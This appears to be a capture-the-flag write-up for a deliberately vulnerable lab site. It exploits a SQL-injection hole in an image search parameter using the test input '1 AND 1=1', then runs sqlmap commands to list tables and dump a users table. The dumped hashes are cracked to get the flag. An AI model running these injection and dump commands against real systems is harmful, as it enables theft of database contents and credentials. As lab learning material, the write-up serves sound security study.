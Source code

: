# 02_Unsecure_img_search

The GET parameter in the image search form is vulnerable.  


## Method

Go to http://192.168.1.59/index.php?page=searchimg.  
In the search field, search `1 AND 1=1`

## Manipulation

Open terminal (Powershell), run  
```bash
python sqlmap.py --url="http://192.168.1.59/index.php?page=searchimg&id=1&Submit=Submit# --tables
```  

This displays all the databases & their tables.  
Thereafter tables can be dumped  
```bash
python sqlmap.py --url="http://192.168.1.59/index.php?page=searchimg&id=1&Submit=Submit# --dump -T users
```  
where `users` refers to the table name  

```bash
+---------+-----------+--------+-----------+-----------+----------------+-------------------------------------------------------------------------------+------------------------------------------------+
| user_id | town      | planet | country   | last_name | first_name     | Commentaire                                                                   | countersign                                    |
+---------+-----------+--------+-----------+-----------+----------------+-------------------------------------------------------------------------------+------------------------------------------------+
| 1       | Honolulu  | EARTH  | America   | Obama     | Barack Hussein | Amerca !                                                                      | 2b3366bcfd44f540e630d4dc2b9b06d9               |
| 2       | Berlin    | Earth  | Allemagne | Hitler    | Adolf          | Ich spreche kein Deutsch.                                                     | 60e9032c586fb422e2c16dee6286cf10 (oktoberfest) |
| 3       | Moscou    | Earth  | Russia    | Staline   | Joseph         | ????? ????????????? ?????????                                                 | e083b24a01c483437bcf4a9eea7c1b4d               |
| 5       | 42        | 42     | 42        | GetThe    | Flag           | Decrypt this password -> then lower all the char. Sh256 on it and it's good ! | 5ff9d0165b4f92b14994e5c685cdce28               |
+---------+-----------+--------+-----------+-----------+----------------+-------------------------------------------------------------------------------+------------------------------------------------+
```

Decode flag  
```bash
5ff9d0165b4f92b14994e5c685cdce28 -> FortyTwo -> fortytwo -> 10A16D834F9B1E4068B25C4C46FE0284E99E44DCEAF08098FC83925BA6310FF5
```  


## Resolve

TBC

### Resources

https://www.hackers-arise.com/post/2017/04/24/database-hacking-part-4-extracting-data-with-sqlmap  
https://www.md5online.org/md5-decrypt.html  
https://passwordsgenerator.net/sha256-hash-generator/  
